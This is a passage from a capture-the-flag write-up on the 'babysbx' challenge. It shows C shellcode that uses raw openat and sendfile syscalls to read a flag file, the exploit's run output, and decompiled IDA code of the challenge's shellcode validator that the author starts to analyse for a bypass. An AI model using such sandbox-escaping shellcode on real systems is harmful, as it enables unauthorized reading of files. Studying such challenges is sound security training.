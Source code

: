 ```c
"ret");

__attribute__((section(".entry"))) int main(void)
{
    int f = syscall(SYS_openat, NULL, "/home/tomer/Desktop/Airoverflow/pwn/babysbx/flag.txt", NULL, NULL, NULL, NULL );
    syscall(SYS_sendfile, STDOUT, f, 0, 40, NULL, NULL);
}
```

and it worked!
```bash
$ python exploit.py
[+] Starting local process './patched_babysbx': pid 7869
[*] Switching to interactive mode
[*] Process './patched_babysbx' stopped with exit code 0 (pid 7869)
Give me your shellcode: ==> Validating shellcode so it doesn't contain any invalid instruction.
Invalid instruction(s) found!
Shellcode looks clean. Invoking..
CTF{F4k3_fl4g_f0r_t3st1ng}
```


## Passing the validate function
We can take a look at the `validate` function in IDA.
```c
__int64 __fastcall validate(void *shellcode, int length)
{
  unsigned __int64 v2; // rax
  void *v3; // rsp
  _BYTE validation_staging_area[4]; // [rsp+8h] [rbp-C0h] BYREF
  int v6; // [rsp+Ch] [rbp-BCh]
  _BYTE *shellcode_copy; // [rsp+10h] [rbp-B8h]
  __int16 instruction_length; // [rsp+26h] [rbp-A2h]
  unsigned int k; // [rsp+28h] [rbp-A0h]
  int j; // [rsp+2Ch] [rbp-9Ch]
  int validation_key_index; // [rsp+30h] [rbp-98h]
  int i; // [rsp+34h] [rbp-94h]
  __int64 instruction_length_1; // [rsp+38h] [rbp-90h]
  void *validation_staging_area_1; // [rsp+40h] [rbp-88h]
  void *validation_keys___[4]; // [rsp+48h] [rbp-80h]
  char invalid_chars[29]; // [rsp+68h] [rbp-60h] OVERLAPPED
  unsigned __int64 canary; // [rsp+90h] [rbp-38h]

  shellcode_copy = shellcode;
  v6 = length;
  canary = __readfsqword(0x28u);
  instruction_length = 2;
  for ( i = 0; i <= 4094; ++i )
  {
    validation_keys___[0] = &int80;
    validation_keys___[1] = &syscall;
    validation_keys___[2] = &sysenter;
    instruction_length_1 = instruction_length + 1 - 1LL;
    v2 = 16 * ((instruction_length + 1 + 15LL) / 0x10uLL);
    while ( validation_staging_area != &validation_staging_area[-(v2 & 0xFFFFFFFFFFFFF000LL)] )
      ;
    v3 = alloca(v2 & 0xFFF);
    if ( (v2 & 0xFFF) != 0 )
      *(_QWORD *)&validation_staging_area[(v2 & 0xFFF) - 8] = *(_QWORD *)&validation_staging_area[(v2 & 0xFFF) - 8];
    validation_staging_area_1 = validation_staging_area;
    memset(validation_staging_area, 0, instruction_length + 1);
    memcpy(validation_staging_area_1, &shellcode_copy[i], instruction_length);
```